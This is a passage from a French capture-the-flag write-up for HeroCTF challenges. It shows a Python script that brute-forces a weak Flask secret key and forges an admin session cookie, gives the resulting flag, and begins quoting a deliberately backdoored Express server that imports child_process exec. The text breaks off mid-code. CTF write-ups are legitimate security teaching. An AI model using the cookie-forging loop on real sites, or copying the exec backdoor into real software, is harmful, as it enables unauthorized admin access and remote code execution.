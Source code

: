 ```app.secret_key = choice(hexdigits) * 32```
    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encoder(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)

        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)

flag = False
while not flag:
    key = choice(hexdigits) * 32
    print(key)
    session = session_cookie_encoder(key, '{"username": "admin"}')
    res = requests.get("https://smallbigmistake.web.heroctf.fr/", cookies={"session": session})
    if "not admin" not in res.text:
        print(res.text)
        exit(1)
```
On a obtient le flag: Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}


## $ where backdoor

**Description**: These web masters are trying to show off their skills. But in reality, there are kind of lazy. They left a backdoor on the server for them to do some maintenance. Find it, exploit it :)
**URL**: [https://wherebackdoor.web.heroctf.fr](https://wherebackdoor.web.heroctf.fr)
**Auteur** : *Log_s*

On se rend sur le site et on regarde tout de suite le code source HTML, ça à l'air d'être une landing page classique, on lit un peu le contenu et elle propose des fonctionnalités plutôt atypiques.
On peut télécharger le code source en plus, c'est royal ! 

On s'intéresse au server.js:
```javascript
const express = require('express');
const util = require('util');
const cors = require('cors');
const mysql = require('mysql');
const exec = util.promisify(require('child_process').exec);

const app = express();

var corsOptions = {
    origin: '*',
    optionsSuccessStatus: 200
  }
  
app.get('/test', cors(corsOptions), function (req, res) {
    const { param } = req.query;
    res.status(200).send('This is a test GET endpoint\nPARAM: '+(param || "empty"));
})

app.get("/db_connection", cors(corsOptions), async (req, res) => {
    
    const con = mysql.createConnection({
```